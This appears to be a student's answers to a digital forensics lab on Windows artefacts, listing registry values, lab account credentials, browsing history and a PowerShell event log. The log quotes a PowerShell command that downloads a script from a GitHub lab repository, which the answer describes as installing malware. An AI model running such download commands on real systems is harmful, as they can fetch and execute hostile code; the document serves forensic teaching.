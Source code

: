                        						 ![](C:\Users\Muhammad Musayiab\OneDrive\Desktop\NU-logo.jpg)

**21k-4760**
**Muhammad Musayiab**

**Question no 1:**

Part a) Mouse double click speed : 500

Part b) url1Registry Last write: 2023-01-29 16:25:07
Value: url1 (RegSz)
Data: C:\Windows\System32\calc.exe

Part c) Registry file: Value: Malware (RegSz)
Data: C:\Users\w\Desktop\malware.exe
Slack: 00-00-78-00-65-00

**Question no 2:**

Part a) Username: hackerman
	   b) password: sup3rs3cur3p4ssw0rd
Part b) What’s the most frequently visited website? (amazon.com)
Part c) download :  pyhton downlooad.


**Question no 3:**

Part a) Log Name:      Microsoft-Windows-PowerShell/Operational
Source:        Microsoft-Windows-PowerShell
Date:          1/29/2023 10:55:04 PM
Event ID:      4104
Task Category: Execute a Remote Command
Level:         Verbose
Description:
Creating Scriptblock text (1 of 1):
Invoke-WebRequest -UseBasicParsing -Uri https://raw.githubusercontent.com/vonderchild/digital-forensics-lab/main/Lab%202/files/file.ps1 -OutFile "file.ps1"

Part b) The purpose was to install malware remotely to the computer.

